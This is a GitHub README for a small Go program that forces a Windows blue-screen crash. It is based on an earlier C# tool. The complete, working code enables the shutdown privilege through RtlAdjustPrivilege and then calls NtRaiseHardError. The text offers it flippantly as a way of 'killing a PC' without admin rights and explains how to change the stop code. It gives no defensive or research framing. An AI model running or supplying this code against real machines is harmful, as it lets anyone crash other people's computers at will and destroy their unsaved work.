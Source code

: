 ## Invoke a BSoD In Go Lang

### Based off of [peewpw](https://github.com/peewpw/Invoke-BSOD)'s C# implementation of Windows' New-Technology API Hard Stop abuse.

> Reference this repo for when you feel like killing a PC (**no admin required!**)
---

There isn't really anything that special going on here, we're adjusting our application's system privilege (level of importance) and invoking a system level hard-stop exception which tricks Windows into thinking something vital has broken, causing an immediate blue screen. 

> (basically we walk into the club pretending to be a celebrity and fake our death for views on YouTube)
  
If you want to change the stop code just edit `0xdeadbeef` on line 17 to whatever [8-digit hexadecimal](https://en.wikipedia.org/wiki/Hexspeak) you want.

```go
package main

import (
    "syscall"
    "unsafe"
)

var (
    ntdll = syscall.NewLazyDLL("ntdll.dll")

    RtlAdjustPrivilege = ntdll.NewProc("RtlAdjustPrivilege")
    NtRaiseHardError   = ntdll.NewProc("NtRaiseHardError")
)

func main() {
    RtlAdjustPrivilege.Call(19, 1, 0, uintptr(unsafe.Pointer(new(bool))))
    NtRaiseHardError.Call(0xdeadbeef, 0, 0, uintptr(0), 6, uintptr(unsafe.Pointer(new(uintptr))))
}
```

---

For Windows Only <sub>(duh)</sub>
